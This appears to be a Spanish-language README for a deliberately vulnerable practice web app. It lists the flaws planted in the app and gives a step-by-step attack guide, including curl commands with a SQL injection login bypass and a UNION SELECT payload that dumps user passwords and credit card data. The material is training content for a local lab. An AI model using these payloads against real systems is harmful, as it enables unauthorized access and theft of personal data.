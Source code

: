 ### 1. **SQL Injection**
- Login sin sanitización
- Búsqueda vulnerable
- Acceso directo a tablas

### 2. **Cross-Site Scripting (XSS)**
- Comentarios sin validación
- Inyección de JavaScript

### 3. **Information Disclosure**
- Exposición de datos sensibles
- Mensajes de error detallados
- Queries SQL expuestas

### 4. **Insecure Direct Object Reference (IDOR)**
- Acceso directo a recursos sin autorización

### 5. **Missing Authentication**
- Endpoints sin verificación de autenticación

## 🎯 Guía de Ataques

### 1. **SQL Injection en Login**

#### **Paso 1: Login Normal**
```bash
curl -X POST http://localhost:3000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin",
    "password": "admin123"
  }'
```

#### **Paso 2: SQL Injection Bypass**
```bash
curl -X POST http://localhost:3000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin'\'' OR '\''1'\''='\''1'\'' --",
    "password": "cualquier_cosa"
  }'
```

**Resultado:** Login exitoso sin credenciales válidas

#### **Paso 3: Extraer Todos los Usuarios**
```bash
curl -X POST http://localhost:3000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin'\'' UNION SELECT username,password,email,role,credit_card,phone,id FROM users --",
    "password": "cualquier_cosa"
  }'
```
